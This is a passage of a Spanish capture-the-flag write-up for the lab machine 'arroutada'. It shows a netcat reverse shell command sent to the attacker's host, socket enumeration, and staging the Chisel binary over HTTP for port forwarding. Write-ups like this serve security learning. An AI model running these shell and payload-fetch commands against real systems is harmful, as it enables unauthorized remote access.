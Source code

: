 Básicamente estamos introduciendo "nc 192.168.1.136 1234 -e /bin/bash" codificado como parámetro, por eso se ve así tan poco "comprensible". De esta forma, desde la máquina víctima, creamos una conexión para ejecutar una bash, que recibiremos al ponernos en escucha en la máquina atacante con Netcat.

Ahora realizamos antes de nada el [tratamiento de la TTY](https://kaianperez.github.io/tty/) para tener una shell interactiva y sin interrupciones.

Si nos vamos a /home vemos el directorio de un usuario, *drito*, en el cual no tenemos permisos. Necesitamos pivotar a él para leer la flag.

En este punto, no localizamos ningún binario SUID ni tenemos permisos sudo como *www-data*, vamos a revisar si hay algún socket en escucha (tanto conexiones TCP como UDP):

~~~~bash
www-data@arroutada:/home$ ss -tunl
Netid  State   Recv-Q  Send-Q   Local Address:Port   Peer Address:Port Process  
udp    UNCONN  0       0              0.0.0.0:68          0.0.0.0:*             
tcp    LISTEN  0       4096         127.0.0.1:8000        0.0.0.0:*             
tcp    LISTEN  0       511                  *:80                *:*   
~~~~

Vemos que está corriendo un servicio en local bajo el puerto 8000, por lo que parece ser una web. El problema que tenemos ahora es que no tenemos conectividad desde nuestra máquina de atacante a ese puerto, por lo que tendremos que realizar una **redirección de puertos**.


### Port forwarding

Vamos a usar Chisel para esta acción y traernos el puerto 8000 de la máquina víctima al nuestro. 

En primer lugar crearemos un servidor Python para subir el Chisel a la máquina víctima:

~~~~bash
❯ which chisel                          
/usr/bin/chisel                                                                                                                                                 
❯ cd /usr/bin                                   
❯ python3 -m http.server 80                                                      
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.1.135 - - [02/Mar/2023 13:03:18] "GET /chisel HTTP/1.1" 200 -
~~~~

Y lo recogemos en la máquina víctima:

~~~~bash
www-data@arroutada:/home$ cd /tmp
www-data@arroutada:/tmp$ wget 192.168.1.136/chisel
--2023-03-02 07:03:17--  http://192.168.1.136/chisel
Connecting to 192.168.1.136:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8750072 (8.3M) [application/octet-stream]
Saving to: 'chisel'

chisel              100%[===================>]   8.34M  --.-KB/s    in 0.06s   

2023-03-02 07:03:17 (151 MB/s) - 'chisel' saved [8750072/8750072]
~~~~
